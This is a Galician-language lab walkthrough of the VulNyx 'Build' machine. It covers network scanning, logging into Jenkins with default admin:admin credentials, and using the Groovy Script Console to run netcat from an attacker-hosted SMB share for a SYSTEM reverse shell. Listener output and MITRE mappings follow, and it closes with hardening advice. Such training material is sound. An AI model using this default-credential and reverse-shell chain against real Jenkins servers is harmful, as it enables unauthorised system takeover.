

Doc vulnyx build
A máquina Build é moi interesante porque...
- Sistema operativo Windows 10
- Servidor web IIS 10.0
- Jenkins 2.504.2 con Groovy Script Console
- Credenciais por defecto (admin/admin)
- RCE mediante Groovy script
- Acceso directo como NT AUTHORITY\SYSTEM
- Sen necesidade de escalada de privilexios
Diagrama de ataque

Fase 1 — Recopilación
sudo arp-scan --interface=eth1 192.168.56.0/24
ping -c2 IP_VulNyx_Build -R # TTL ≃ 128 ⇒ Microsoft Windows
sudo nmap -sS -Pn -T4 -p- -vvv --min-rate 5000 IP_VulNyx_Build
Resultado do escaneo de portos:
PORT STATE SERVICE
80/tcp open http
135/tcp open msrpc
139/tcp open netbios-ssn
445/tcp open microsoft-ds
5040/tcp open unknown
8080/tcp open http-proxy
49664/tcp open msrpc
49665/tcp open msrpc
49666/tcp open msrpc
49667/tcp open msrpc
49668/tcp open msrpc
49669/tcp open msrpc
49670/tcp open msrpc
Fase 2 — Análise
Escaneo de servizos e versións
# Escaneo detallado dos portos abertos
sudo nmap -p80,135,139,445,5040,8080,49664,49665,49666,49667,49668,49669,49670 \
-sCV IP_VulNyx_Build -oN targeted -oX targeted.xml
Resultado do escaneo:
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-title: IIS Windows
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
5040/tcp open unknown
8080/tcp open http Jetty 12.0.19
|_http-server-header: Jetty(12.0.19)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry
|_/
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49669/tcp open msrpc Microsoft Windows RPC
49670/tcp open msrpc Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not required
| smb2-time:
| date: 2025-11-09T07:25:14
|_ start_date: N/A
|_clock-skew: 7h59m57s
|_nbstat: NetBIOS name: BUILD, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:e8:6a:4b (Oracle VirtualBox)
Servizos identificados:
- Porto 80: Microsoft IIS 10.0
- Porto 8080: Jenkins 2.504.2 sobre Jetty 12.0.19
- Porto 445: SMB (Microsoft-DS)
- Porto 135/139: RPC e NetBIOS
Enumeración web
# Identificar tecnoloxías web no porto 8080
whatweb IP_VulNyx_Build:8080
# Obter cabeceiras HTTP
curl -I IP_VulNyx_Build:8080
Resultado de whatweb:
http://192.168.56.110:8080 [403 Forbidden]
Cookies[JSESSIONID.9991a48d]
HTTPServer[Jetty(12.0.19)]
Jenkins[2.504.2]
Jetty[12.0.19]
Meta-Refresh-Redirect[/login?from=%2F]
Resultado de curl:
HTTP/1.1 403 Forbidden
Server: Jetty(12.0.19)
X-Content-Type-Options: nosniff
Set-Cookie: JSESSIONID.9991a48d=node017plgfpycqay3sak69mdezau661.node0; Path=/; HttpOnly
X-Hudson: 1.395
X-Jenkins: 2.504.2
X-Jenkins-Session: 03167756
Descubrimento crítico:
- Jenkins 2.504.2 exposto no porto 8080
- Redirixe a
/login?from=%2F - Posible acceso con credenciais por defecto
Información sobre Jenkins
Que é Jenkins?
Jenkins é un servidor de automatización de código aberto escrito en Java. Úsase principalmente para:
- CI/CD (Integración e Despregue Continuo)
- Automatización de compilacións
- Execución de tests
- Despregue de aplicacións
Vulnerabilidades comúns
Credenciais por defecto:
admin:adminjenkins:jenkins
Script Console (Groovy):
- Permite execución arbitraria de código Groovy
- Acceso en:
http://JENKINS_URL/scriptouhttp://JENKINS_URL/manage/script - Se temos acceso, podemos executar comandos no sistema
- Pode acceder a recursos compartidos SMB externos
Como funciona o ataque?
- Acceso con credenciais por defecto: Probar
admin:admin - Compartir nc.exe mediante SMB: Usar
impacket-smbserverpara servir netcat - Acceso á Script Console: Navegar a
/scriptou/manage/script - Execución de código Groovy: Executar nc.exe desde recurso compartido SMB
- Shell como SYSTEM: Jenkins normalmente execútase con privilexios elevados
Fase 3 — Explotación
Acceso a Jenkins
Probar credenciais por defecto:
- Usuario:
admin - Contrasinal:
admin
Resultado: Acceso exitoso con admin:admin
Execución remota de código con Groovy Script Console
1. Navegar á Script Console:
2. Preparar recurso compartido SMB con nc.exe:
Primeiro necesitamos compartir nc.exe (netcat) mediante un servidor SMB:
# Localizar nc.exe (normalmente en /usr/share/windows-binaries/ ou descargar de https://eternallybored.org/misc/netcat/)
find / -name nc.exe 2>/dev/null
# Copiar nc.exe ao directorio actual
cp -pv /usr/share/windows-binaries/nc.exe .
# Iniciar servidor SMB con impacket
impacket-smbserver recursoCompartido . -smb2support
Saída esperada de impacket:
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
3. Preparar listener en Kali (noutra terminal):
4. Executar comando Groovy para reverse shell:
Na Script Console de Jenkins (http://IP_VulNyx_Build:8080/script), pegar o seguinte código:
Explicación do comando:
\\\\IP_Atacante\\recursoCompartido\\: Ruta UNC ao recurso compartido SMBnc.exe: Netcat executableIP_Atacante 4444: IP e porto do listener-e cmd.exe: Executa cmd.exe e redirixe entrada/saída a través da conexión.execute().text: Executa o comando en Groovy
Exemplo real:
5. Verificar conexión no listener:
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.56.53] from (UNKNOWN) [192.168.56.110] 49675
Microsoft Windows [Version 10.0.19045.2965]
(c) Microsoft Corporation. All rights reserved.
C:\Program Files\Jenkins>
Nota importante:
O comando Groovy non mostra saída visible na Script Console, pero a conexión establécese no listener de netcat.
Verificar privilexios
Acceso directo como NT AUTHORITY\SYSTEM - Non require escalada de privilexios
Fase 4 — Post‑explotación
Navegación e obtención de flags
# Navegar ao directorio de usuarios
C:\Program Files\Jenkins> cd C:\Users
C:\Users>
# Listar usuarios
C:\Users> dir
Volume in drive C has no label.
Volume Serial Number is XXXX-XXXX
Directory of C:\Users
11/09/2025 12:00 AM <DIR> .
11/09/2025 12:00 AM <DIR> ..
11/09/2025 12:00 AM <DIR> Administrator
11/09/2025 12:00 AM <DIR> [usuario]
11/09/2025 12:00 AM <DIR> Public
# Acceder ao usuario [usuario]
C:\Users> cd [usuario]\Desktop
C:\Users\[usuario]\Desktop>
# Ler flag de usuario
C:\Users\[usuario]\Desktop> type user.txt
[FLAG_USER]
# Acceder ao usuario Administrator
C:\Users\[usuario]\Desktop> cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop>
# Ler flag de root
C:\Users\Administrator\Desktop> type root.txt
[FLAG_ROOT]
Ambas flags conseguidas sen necesidade de escalada de privilexios.
Correspondencia de fases → MITRE ATT&CK — VulNyx: Build
| Fase | Acción / Resumo | Vector principal | MITRE ATT&CK (IDs) | CWE(s) (relevantes) |
|---|---|---|---|---|
| 1. Recopilación | Descubrimento de host e servizos expostos | Scanning / descubrimento de servizos | T1595 — Active Scanning T1046 — Network Service Discovery |
CWE-200 — Information Exposure (reconnaissance) |
| Detección de sistema operativo Windows 10 | OS fingerprinting | T1592.004 — Gather Victim Host Information: Client Configurations | CWE-200 — Information Exposure | |
| 2. Análise | Enumeración de servizos web (IIS, Jenkins) | Service enumeration | T1595.002 — Active Scanning: Vulnerability Scanning T1046 — Network Service Discovery |
CWE-200 — Information Exposure |
| Identificación de Jenkins con credenciais por defecto | Default credentials discovery | T1078 — Valid Accounts T1078.001 — Valid Accounts: Default Accounts |
CWE-798 — Use of Hard-coded Credentials | |
| 3. Explotación | Acceso a Jenkins con credenciais por defecto | Credential exploitation | T1078 — Valid Accounts T1078.001 — Valid Accounts: Default Accounts |
CWE-798 — Use of Hard-coded Credentials |
| Execución de código Groovy en Script Console | Code injection via application feature | T1059 — Command and Scripting Interpreter T1059.007 — Command and Scripting Interpreter: JavaScript |
CWE-94 — Improper Control of Generation of Code | |
| Execución de nc.exe desde recurso compartido SMB | SMB file share exploitation | T1021.002 — Remote Services: SMB/Windows Admin Shares T1570 — Lateral Tool Transfer |
N/A | |
| Obtención de reverse shell como SYSTEM | Remote access / initial access | T1071.001 — Application Layer Protocol: Web Protocols T1059.003 — Command and Scripting Interpreter: Windows Command Shell |
CWE-94 — Improper Control of Generation of Code | |
| 4. Post-explotación | Enumeración do sistema como SYSTEM | System information discovery | T1082 — System Information Discovery T1033 — System Owner/User Discovery |
CWE-200 — Information Exposure |
| Navegación polo sistema de ficheiros e lectura de flags | File and directory discovery | T1083 — File and Directory Discovery T1005 — Data from Local System |
N/A |
Recursos Adicionais
Referencias sobre Jenkins
Vulnerabilidades e configuracións inseguras
- CWE-798: Use of Hard-coded Credentials
- CWE-94: Improper Control of Generation of Code ('Code Injection')
- Credenciais por defecto: Sempre cambiar credenciais por defecto en produción
- Script Console: Restrinxir acceso á Script Console só a administradores de confianza
- Acceso SMB: Jenkins pode acceder a recursos compartidos SMB externos
Recomendacións de seguridade
- Cambiar credenciais por defecto: Non usar
admin:adminen produción - Restrinxir acceso: Configurar autenticación robusta (LDAP, SAML, etc.)
- Deshabilitar Script Console: Se non é necesaria, deshabilitar ou restrinxir
- Principio de mínimo privilexio: Non executar Jenkins como SYSTEM/root
- Auditoría de logs: Monitorizar accesos e execucións de scripts
- Actualizar: Manter Jenkins e plugins actualizados
- Restrinxir SMB: Limitar acceso de Jenkins a recursos compartidos externos
Notas Importantes
- Windows 10: Sistema operativo moderno pero con configuracións inseguras
- Jenkins con credenciais por defecto: Vector de ataque principal
- Script Console: Permite execución arbitraria de código Groovy
- Acceso SMB: Jenkins pode acceder a recursos compartidos SMB externos
- SYSTEM: Jenkins executándose con privilexios máximos
- Sen escalada: Non é necesaria escalada de privilexios, xa somos SYSTEM
- Configuración insegura: A vulnerabilidade non é de Jenkins senón da configuración
Esta máquina é unha excelente demostración da importancia de cambiar credenciais por defecto e aplicar o principio de mínimo privilexio en servizos críticos.
Comparativa: Jenkins vs outras plataformas CI/CD
Jenkins vs GitLab CI vs GitHub Actions
| Característica | Jenkins | GitLab CI | GitHub Actions |
|---|---|---|---|
| Tipo | Self-hosted | Cloud/Self-hosted | Cloud |
| Linguaxe config | Groovy/Declarative Pipeline | YAML | YAML |
| Script Console | Si (Groovy) | Non | Non |
| Risco seguridade | Alto (se mal configurado) | Medio | Baixo |
| Credenciais defecto | Común en instalacións antigas | Non aplicable | Non aplicable |
| Privilexios exec | Pode executar como SYSTEM/root | Containers illados | Containers illados |
Conclusión: Jenkins é moi potente pero require unha configuración de seguridade coidadosa.